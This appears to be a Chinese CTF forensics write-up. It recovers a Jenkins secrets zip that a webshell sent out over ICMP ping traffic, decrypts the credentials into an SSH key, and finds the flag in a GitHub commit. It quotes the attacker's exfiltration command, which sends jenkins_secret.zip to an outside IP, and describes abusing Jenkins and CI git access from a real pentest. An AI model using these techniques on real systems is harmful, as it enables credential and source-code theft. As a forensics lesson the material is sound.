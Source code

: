 # misc Hecker

[TOC]

## Main Route for CTFer

``` mermaid
flowchart TD;

	Status_Begin("
Wireshark dump file with traffic with ping transfer file and something with webshell interface in noise env")
	-->
	Status_1("find webshell interface and ping datas in file transfer") 
	
	Status_1 
	-->
	Status_2("zip file extract ") & Status_6("find the banner with eson project")
	Status_2
	-->
	Status_4("Jenkins Secrets")
	
	Status_4 --> Status_5("ssh key about git")
	
	Status_5 & Status_6 --> Status_7("Get file at Secrets github repo")
	--> Status_End("GET flag at source code commit")
	
	%% {{ Project on git contains source code SeverCode and flag }}

```



## 详细步骤

首先你会先拿到一个 wireshark 抓包的结果

![image-20220318174909872](./writesup.assets/image-20220318174909872.png)

经过简单的查看整个过程的流量可以发现以下几点

- 这里包含了 HTTP TCP ICMP
- ICMP id 为 0x0082 的请求一直 "污染" 着整个网络通讯

简单的进行 过滤一下 发现

![image-20220318175759019](./writesup.assets/image-20220318175759019.png)

可以发现 有 webshell 类的交互

运行的命令有 

- ls -al
- python3 main.py
- python3 main.py 172.17.0.1 jenkins_secret.zip
- echo HACKED  BY 99BIE > readme.txt
- cat readme.txt

![image-20220318180256447](./writesup.assets/image-20220318180256447.png)

核心需要关注的 是这几条记录 可以发现 

backdoor 这里加入了 jenkins_secret.zip 之后 response 和 request 间隔的时间远远大于 其他的通讯的 request 和 response

观察其请求 可以发现 通讯信息就是简简单单的 base64 encode 而已

![image-20220318180558771](./writesup.assets/image-20220318180558771.png)

```
STDERR: VHJhY2ViYWNrIChtb3N0IHJlY2VudCBjYWxsIGxhc3QpOgogIEZpbGUgIi9zZXJ2ZXIvbWFpbi5weSIsIGxpbmUgMTkzLCBpbiA8bW9kdWxlPgogICAgcGluZyhzeXMuYXJndlsxXSwgc3lzLmFyZ3ZbMl0pCkluZGV4RXJyb3I6IGxpc3QgaW5kZXggb3V0IG9mIHJhbmdlCg==
STDOUT: VXNhZ2U6IG1haW4ucHkge2lwfSB7c2VuZGZpbGV9ClVzYWdlOiBtYWluLnB5IHtpcH0ge3NlbmRmaWxlfSB7cmF0ZWxpbWl0IChzZWNvbmQpfQo=
```

![image-20220318180826208](./writesup.assets/image-20220318180826208.png)

然后顺势解密其他的 流量信息

还有 ping 这里有一处信息之后用到 先记录一下

![image-20220318180055369](./writesup.assets/image-20220318180055369.png)

可以看到 `Esonhugh @github` 和 ` Esonhugh/secret_source_code` 等字样



既然发现时间有问题 那么 回去看看这个操作之间经过了什么东西 对这条流量进行 mark

发现 有很多的 icmp 流量发送出来

![image-20220318181144775](./writesup.assets/image-20220318181144775.png)

有一个 ident 为 0x0087 开始的全新 ICMP 流量段出现

![image-20220318181416542](./writesup.assets/image-20220318181416542.png)

并且 ident=0x0087 的 ICMP 结束之后 2s 我们 收到了 HTTP response ok

看 webshell 可以发现 应该是发送了一个 zip 包回来 

![image-20220318181653682](./writesup.assets/image-20220318181653682.png)

细看 PK 头 还有 压缩包内的内容

很好 现在就只要把他 过滤出来就可以了

```icmp.ident==0x0087 && icmp.resp_in ```

这里用的是 这条 也可以是 resp_to 避免 icmp request 和 response 的重复

结果导出

![image-20220318182520843](./writesup.assets/image-20220318182520843.png)

保存为 icmp.data.json

```
cat icmp.data.json|grep data.data|cut -d "\"" -f 4
```

现在就可以看到全部的 data 信息了

比如这个第一段

```
41:d8:8d:14:43:56:6c:ad:ee:55:00:4e:de:ad:be:ef:50:4b:03:04:0a:00:00:00:00:00:d2:b2:71:54:00:00:00:00
```

看看开头 可以发现重复部分

![image-20220318183228672](./writesup.assets/image-20220318183228672.png)

`41:d8:8d:14:43:56:6c:ad:ee:55:00:4e:de:ad:be:ef`

这里有可能是 d6 d7 有几个位数会发生变化 但是没关系这其实是 checksum deadbeef 这里还是可以切除的

进行一个去除

这时候留意下结尾看看是不是也有相关的内容

![image-20220318183405591](./writesup.assets/image-20220318183405591.png)

不出意外确实也有

`:13:37:13:37:11:33:33:77`

进行第二个去除

直接替换为 空就可以了

现在可以看到我们应该只剩下了 压缩包最中间的部分

再把 : 替换为 \x 的样子 就可以进行转义了

> vim 块编辑 可以快速搞定 Ctrl+v 然后选中 开头结尾就可以了

```
cat process1|sed -e "s/:/\\\\x/g" > process2 # 将: 转换为 \x 
print "`cat process2`" > data.zip # 拿到原先的 文件 jenkins_secret.zip
```

这样我们就取出了  这个 zip

解压缩 

获取到 jenkins_secret 文件夹

看到 cred 和 secerts 文件夹 那么很简单了 

直接 jenkins cred 解密就完事



![image-20220319124555895](./writesup.assets/image-20220319124555895.png)



这里我贴了一个 hint 不过 没有加什么 hint 上去

这里我们拿下一个 ssh key

那么这条线索也就利用完了

还记得之前记一下的那个 地方吗

直接将 SSH key 保存

然后 让 ssh-agent 进行一手代理

> 最近 github 有点点问题 可能拉起来有一些不对劲
>
> 但是 放心 是拉的下来的

`Esonhugh @github` 和 ` Esonhugh/secret_source_code`

![image-20220319125235457](./writesup.assets/image-20220319125235457.png)

简单的看一下 log 和 branch 能够发现

![image-20220319125357072](./writesup.assets/image-20220319125357072.png)

flag 就存放在 upload source code 1 这里

而不是 flag (读取 flag 的两个分支 会得到 never gonna give you up)

![image-20220319125701249](./writesup.assets/image-20220319125701249.png)

![image-20220319125718898](./writesup.assets/image-20220319125718898.png)

flag 就在最底下 (你们还是被骗了 Doge)

如果有可视化的 git 工具

或者直接 jetbrains IDE 打开

![](./writesup.assets/image-20220319130226984.png)

检查一下历史变更就可以了

![image-20220319130827384](./writesup.assets/image-20220319130827384.png)

flag `DASCTF{Oh!_H4ck_f0r_c0d3s-and_4buse_1t}`





## 实战意义

出题目的过程其实是来源于我经历的一次渗透

日穿服务器之后信息收集 偷取源码或者go web binary

看到 Jenkins 和 CICD 之后 滥用它的 git 来获取源码与信息

可能看 banner 没有 人能看出来什么 这一部需要更多的联想 但是我已经给出了  `@github` 字样的提示 理论上也不是很难

